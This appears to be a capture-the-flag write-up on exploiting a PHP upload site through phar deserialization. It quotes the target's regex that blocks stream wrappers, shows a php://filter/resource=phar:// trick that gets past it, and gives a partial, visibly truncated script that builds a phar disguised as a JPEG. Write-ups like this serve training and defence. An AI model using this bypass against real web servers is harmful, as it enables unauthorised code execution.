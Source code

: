 TLDR: To complete this task you need to demonstrate phar deserialization and
filter data corruption

You are given deployed html/php files  and ip to the server.

Some of the important files / dir  
```  
/html  
	- index.php (Read uploaded file)  
	- old.php (We will use this as deserialization target)  
	- upload.php (Upload file)  
	- up/ (Uploaded files are placed here)  
```

Before creating our malicious phar payload we need to check if we could
trigger it.  
We could trigger phar deserialization by using `phar://` wrapper on file
manipulation function.  
Eg.  
- `file_exists('phar://phar.phar') or  file_exists('phar://phar.jpeg')`  
- `file_get_contents('phar://phar.phar') or file_get_contents('phar://phar.jpeg')`  
- other functions like `filesize`, `filemtime`, `is_readable`, etc would also work

```  
Index.php

...  
if (isset($_GET["img"])) {  
    if(preg_match('/^(ftp|zlib|https?|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_GET['img'])){  
        die("no hack !");}

$img=$_GET["img"].'.jpg';  
$a='data:image/png;base64,' . base64_encode(file_get_contents($img));  
echo "![]($a)";  
```

As shown in the code, preg_match stops program execution if  `phar://` wrapper
exists in the beginning of the string. And  since preg allow us to use
`php://` wrapper, we could trigger phar deserilization by using
`php://filter/resource=phar://phar.jpeg`

After we know that phar deserilization is triggerable, we need to craft our
payload. Because `upload.php` checks image size, we need to craft phar payload
as jpeg file.

So first we need to create phar with jpeg header in it  
```  
phar_create.php  
startBuffering();  
$phar->addFromString("test.txt","test");  
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");  
$phar->stopBuffering();  
```

Run the above code will give you `phar.phar` as jpeg image with 10x10 size.
